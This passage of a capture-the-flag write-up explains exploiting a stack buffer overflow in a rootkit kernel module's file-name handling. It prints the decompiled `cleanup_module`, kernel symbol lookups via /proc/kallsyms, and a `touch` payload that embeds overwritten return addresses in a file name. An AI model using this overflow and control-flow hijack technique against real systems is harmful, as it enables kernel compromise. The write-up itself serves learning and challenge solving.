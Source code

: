 Now that we know a buffer overflow is possible, we can control the return address to point to `cleanup_module`, but why?

Explanation:

When a buffer overflow occurs, it allows an attacker to write beyond the allocated buffer's limits, overwriting adjacent data on the stack, including the return address. By controlling this return address, the attacker can redirect the program's execution flow to a function of their choice, in this case, `cleanup_module`.

The `cleanup_module` function is as follows:
```c
void cleanup_module(undefined8 param_1,undefined8 param_2)
{
  undefined8 uVar1;
  long lVar2;

  lVar2 = my_sys_call_table;
  uVar1 = original_cr0;
  *(undefined8 *)(my_sys_call_table + 0x6c8) = ref_sys_getdents64;
  *(undefined8 *)(lVar2 + 0x270) = ref_sys_getdents;
  *(undefined8 *)(lVar2 + 0x30) = ref_sys_lstat;
  msleep(2000,param_2,uVar1);
  return;
}
```
This function restores the original system call table pointers, potentially reverting the system to its state before exploitation. In other words, it might allow the recovery of the original `ecsc_flag_XXX` file by cleaning up the modifications made by the rootkit.

Here's how it works:

 The buffer overflow overwrites the instruction pointer (RIP) with a new address, here that of `cleanup_module`.
    When execution is redirected to `cleanup_module`, this function restores the system call table entries to their original values.
    The function then uses `msleep` to suspend execution for `2000 milliseconds`, probably to ensure the changes are correctly applied before the system continues.

Perfect! Now let's consider the return address `sys_exit` to prevent our payload from crashing as soon as we launch it.

Let's start by retrieving the addresses we need:

```bash
/ $ cat /proc/kallsyms | grep cleanup_module
ffffffffc035336e t cleanup_module       [ecsc]
/ $ cat /proc/kallsyms | grep sys_exit
ffffffffaa43a390 T sys_exit
```
Knowing that KASLR is enabled, we will need to do this each time the VM restarts.

Now, let's construct our payload as follows:

```bash
touch "$(printf 'ecsc_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6e\x33\x35\xc0\xff\xff\x
ff\xff\x90\xa3\x43\xaa\xff\xff\xff\xff')"
```
